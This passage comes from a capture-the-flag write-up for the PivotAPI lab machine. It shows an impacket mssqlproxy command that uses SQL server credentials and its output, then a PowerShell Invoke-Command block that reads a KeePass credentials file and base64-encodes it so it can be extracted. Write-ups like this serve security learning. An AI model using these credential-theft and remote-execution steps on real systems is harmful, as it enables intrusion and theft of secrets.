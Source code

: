 Then we can runthe same command using `-start -reciclador 'C:\Windows\Temp\reciclador.dll`.&#x20;

This would open a listener port on our port 1337, which is supposed to let us conenct via WinRM in, but I kept getting this error when running it.&#x20;

```
$ python2 mssqlclient.py 'LicorDeBellota.htb/sa:#mssql_s3rV1c3!2020@10.129.228.115' -start -reciclador 'C:\Windows\Temp\reciclador.dll'/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

mssqlproxy - Copyright 2020 BlackArrow
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: Español
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió el contexto de la base de datos a 'master'.
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió la configuración de idioma a Español.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[*] Proxy mode: check
[*] Assembly is installed
[*] Procedure is installed
[*] reciclador is installed
[*] clr enabled
[*] Proxy mode: start
[*] Listening on port 1337...
[*] ACK from server!
[*] Bye!
```

The connection kept cutting out when I connected via this method, so this again, doesn't work.&#x20;

### Remote Powershell --> Keepass Crack

My last option was to use `base64` encoded Powershell commands to run stuff on the machine (at this point I was looking at a writeup). 0xdf used this in his Unintended Methods part of his writeup:

```powershell
$user='LicorDeBellota.htb\svc_mssql'; 
$pass = ConvertTo-SecureString '#mssql_s3rV1c3!2020' -AsPlainText -Force; 
$cred = New-Object System.Management.Automation.PSCredential($user, $pass)
try { 
  Invoke-Command -ScriptBlock { [Convert]::ToBase64String([IO.File]::ReadAllBytes('c:\users\svc_mssql\desktop\credentials.kdbx')) | Out-File C:\programdata\0xdf.txt } -ComputerName PivotAPI -Credential $cred 
} catch { 
  echo $_.Exception.Message
}
```

I used his command to get the KeePass database out.&#x20;

